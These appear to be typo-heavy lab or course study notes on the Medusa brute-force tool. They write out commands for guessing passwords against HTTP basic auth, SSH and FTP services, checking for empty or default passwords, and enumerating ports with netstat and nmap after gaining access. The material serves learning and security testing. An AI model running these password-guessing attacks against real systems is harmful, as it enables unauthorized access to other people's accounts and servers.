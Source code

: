 - Targeting Multiple Web servers with Basic HTTP Auth:
These server's addresses are stored in web_servers.txt, and u also have lists of common usernames and password in usernames.txt and password.txt.
`medusa -H web_servers.txt -U usernames.txt -P password.txt -M http -m GET`
Explanation:
    - Iterate thorugh the list of web servers in web_servers.txt
    - Use the usernames and pass provided.
    - Employ the http module with the GET method to attempt logins.

- Test for empty of def pass:
If u wnat ot asscess any accounts on specific host have  empty or def pass u can use:
`medusa -h ip -U usernames.txt -e -ns -M service_name`
Exmplanation:
    - Host at ip
    - Use the usernames fomr user.txt
    - Perform additional checks for empty pass [-e n] and pass matching the username [-e s].
    - Use thje appropiate service module [service_name] with correct module name.


# Web services:
In dynamic landscape of cyber, maintaining robust auth mechanisms is paramount. While tech like Secure Shell (ssh) and file transfer protocol (ftp) facilitate secure
remote access and file management, they are often reliant on traditional user-pass combinations, presenting potential vul exploitable through brute-force attacks.
In this module, we will delveinto practical app of Medusa, a potent brute-forcing tool, to systematically compromise both ssh and ftp services, illustrating potential
attack vectors and emphasizing the imporatnce of fortified auth pratices.

SSH is cryptographic network protocol that provides a secure channel for remote loginm command execution, and file transfer over unsecured network. FTP is a satandard network
protocol for tranferring between a client and server on computer network.

- Kick-Off
We begin our exploration by targeting an SSH server running on a remote system. Assuming prior of the username sshuser, we can leverage medusa to attempts different pas combinations
util successful ath is achieved systematically.
`medusa -h ip -n port -u sshuser -P pass.txt -M ssh -t 3`
Explain:
    - [-h] ip: Specifies the target system's IP addr.
    - [-n] port: Defines the port on which th ssh service is listening port 22.
    - [-u] sshuser: Sets the username for the brute-force attacks.
    - [-P] password.txt: Points medusa to wordlist containing the 200 mist commonly used pass in 2023.
    - [-M] ssh: select ssh module.
    - [-t 3] Dictates the number of parellel login attempts to execute concurrentluy.


## Gaining Access:
`ssh sshuser@ip -p PORT`
- Explanding the attack surface:
Using netstat to list open ports and listening services, u discover a service running on port 21.
```sh
netstat -tulpn | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
```
Reconnaissance with nmap confims this finding as an ftp server
```sh
nmap localhost
```
- Targeting the FTP Server:
If we explote the /home dir on the target, we see an ftpuser folder, which implies the likelihood of the FTP server user begin ftpuser.
`medusa -h ip -u ftpuser -P pass.txt -M ftp -t 5`